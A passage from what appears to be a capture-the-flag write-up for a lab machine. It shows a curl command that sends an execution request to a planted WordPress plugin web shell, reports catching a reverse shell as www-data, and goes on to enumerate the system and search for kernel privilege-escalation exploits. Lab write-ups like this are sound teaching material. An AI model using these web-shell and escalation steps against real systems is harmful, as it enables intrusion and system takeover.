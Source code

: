 ```bash
  http://10.10.10.37/wp-content/plugins/bubba-1/bubba.php
# execute in the background
curl --data-urlencode "cmd=/tmp/bubba.elf &" \
  http://10.10.10.37/wp-content/plugins/bubba-1/bubba.php
```

After this, a reverse shell is captured that gives a low privlidged shell as `www-data`:

![www-data](./blocky/www-data.png)

After some enumeration at this level, there does not seem to be any obvious permissions/services/network vulnerabilities... The `user.txt` is owned by the user `notch` and the password crack from hashcat for that password didn't return any results from the RockYou wordlist... Perhaps there is a kernel exploit? The kernel info can be gathered by running the following:

```bash
uname -a
cat /etc/*-release
```

![kernel](./blocky/kernel.png)

With this info, try looking for an exploit:

```bash
searchsploit "Linux Kernel" "Local Privilege Escalation" 4.4
```

![searchsploit_kernel](./blocky/searchsploit_kernel.png)
